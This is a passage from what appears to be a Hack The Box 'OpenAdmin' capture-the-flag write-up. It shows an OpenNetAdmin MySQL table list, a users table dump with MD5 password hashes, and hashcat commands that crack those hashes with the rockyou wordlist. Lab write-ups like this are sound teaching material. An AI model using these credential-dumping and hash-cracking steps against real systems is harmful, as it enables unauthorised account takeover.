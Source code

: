 ```sql
| hosts                  |
| interface_clusters     |
| interfaces             |
| locations              |
| manufacturers          |
| messages               |
| models                 |
| ona_logs               |
| permission_assignments |
| permissions            |
| roles                  |
| sequences              |
| sessions               |
| subnet_types           |
| subnets                |
| sys_config             |
| tags                   |
| users                  |
| vlan_campuses          |
| vlans                  |
+------------------------+
40 rows in set (0.00 sec)

mysql> SELECT * from users;
+----+----------+----------------------------------+-------+---------------------+---------------------+
| id | username | password                         | level | ctime               | atime               |
+----+----------+----------------------------------+-------+---------------------+---------------------+
|  1 | guest    | 098f6bcd4621d373cade4e832627b4f6 |     0 | 2021-01-01 19:35:54 | 2021-01-01 19:35:54 |
|  2 | admin    | 21232f297a57a5a743894a0e4a801fc3 |     0 | 2007-10-30 03:00:17 | 2007-12-02 22:10:26 |
+----+----------+----------------------------------+-------+---------------------+---------------------+
2 rows in set (0.00 sec)

mysql>
```

A hash of 32 characters is probably a MD5 hash:

![32chars-hash](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/openadmin/32chars-hash.png)

### Cracking passwords with `hashcat`

```bash
$ echo "098f6bcd4621d373cade4e832627b4f6" > hashes
$ echo "21232f297a57a5a743894a0e4a801fc3" >> hashes
$ hashcat hashes -m 0 /usr/share/wordlists/rockyou.txt
#...
```
